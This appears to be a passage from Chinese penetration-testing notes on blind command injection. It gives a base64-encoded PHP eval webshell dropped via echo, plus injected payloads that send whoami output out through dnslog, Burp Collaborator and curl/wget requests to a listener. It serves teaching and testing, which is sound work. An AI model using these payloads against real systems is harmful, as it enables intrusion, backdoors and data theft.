 无回显 

有回显的情况下相对交少，一般在实战环境环境中，无回显的环境较多，证明漏洞存在就需要各种**利用外通信技巧**

### 命令执行漏洞外通信技巧

利用管道符号写入 SHELL ，如果存在漏洞的页面有 web 服务器，有权限写入，利用 shell 命令写入 webshell 后门到网站目录，访问即可获取 webshell

```
echo "PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWydjbWQnXSk/Pg=="|base64 -d >shell.php
```

#### dnslog

带外通信技巧一般都是无回显的情况，使用 dnslog， dnslog 是一个显示解析记录的平台，在无回显的情况下，通过访问 dnslog，dnslog **会把你访问的子域名的头文件记录下来**

使用反引号`whoami`得到的用户名再，子域名，再使用 icmp 协议访问 ping 域名

```
ping -c 4 127.0.0.1| ping `whoami`.tmye88.dnslog.cn
```

<img src="图片\Snipaste_2023-02-04_10-27-30.png" alt="Snipaste_2023-02-04_10-27-30" style="zoom:80%;" />

#### burpsuite burpcollaborator 测试无回显

测试的原理和 dnslog 一样

使用 burpsuite 的 burpcollaborator 复制

点击 copyt to clipboard 复制测试的子域名再拼接子域名 

```
ping -c 4 127.0.0.1| ping `whoami`.xlmiw1sf16svvsbtwr5upgac137tvi.burpcollaborator.net
```

#### 利用日志测试无回显

利用 HTTP 协议，访问 WEB 中间件时，iis 或者 apache 或者小型服务，都存在访问日志。在kali 上开启python 的小型服务器。再用 curl 协议访问远程服务器 ip 的 80 端口，再到 kali 的终端查看记录即可

```
使用 curl 命令
ping -c 4 ||curl http://192.168.1.100/?`whoami`
使用 wget 命令
ping -c 4 ||wget http://192.168.1.100/?`whoami`
```

<img src="图片\Snipaste_2023-02-04_10-36-16.png" alt="Snipaste_2023-02-04_10-36-16"  />
